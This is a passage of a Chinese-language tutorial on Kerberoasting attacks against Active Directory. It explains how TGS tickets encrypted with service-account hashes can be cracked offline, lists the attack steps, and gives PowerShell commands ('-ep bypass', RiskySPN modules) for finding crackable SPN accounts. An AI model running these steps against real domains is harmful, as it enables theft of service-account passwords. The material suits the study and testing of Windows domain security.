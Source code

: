 ```bash
:serviceclass/host:port/servicename
例如
MSSQLSVC/win7/hack.org:1433
```

# 0x03 Kerberoasting 攻击

## 什么是 Kerberoasting

`Kerberoasting` 是一种允许攻击者窃取使用 `RC4` 加密的 `KRB_TGS` 票证的技术，以暴力破解应用程序服务 `HASH` 来获取其密码  
`Kerberos` 使用所请求服务的 `NTLM` 哈希来加密给定服务主体名称 (SPN) 的 `KRB_TGS` 票证。当域用户向域控制器 `KDC` 发送针对已注册 `SPN` 的任何服务的 `TGS 票证`请求时，`KDC` 会生成 `KRB_TGS`  
攻击者可以离线使用例如`hashcat`来暴力破解服务帐户的密码，因为该票证已使用服务帐户的 `NTLM 哈希`进行了加密。  
**Kerberoasting 攻击主要步骤如下**

> 1.发现 SPN 服务  
> 2.使用工具向 SPN 请求 TGS 票据  
> 3.转储 .kirbi 或 ccache 或服务 HASH 的 TGS 票据  
> 4.将 .kirbi 或 ccache 文件转换为可破解格式  
> 5.使用 hashcat 等工具配合字典进行暴力破解

并且随着技术的不断更新，`kerberoasting` 攻击的工具与手段也越来越多，因此我们把多个步骤的攻击叫做旧 `kerberoasting` 攻击，单个步骤的攻击叫做新 `kerberoasting` 攻击

## 旧 kerberoasting 攻击

### 利用 Powershell 脚本进行 kerberoasting

#### 发现 SPN

使用以下 `RiskySPN` 脚本发现 `SPN` 服务

```bash
https://github.com/cyberark/RiskySPN/tree/master
```

```bash
powershell -ep bypass
#发现域内 spn
Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -FullData -Verbose
#发现域内 spn 并保存到 csv
Import-Module .\Export-PotentiallyCrackableAccounts.ps1
Export-PotentiallyCrackableAccounts
```
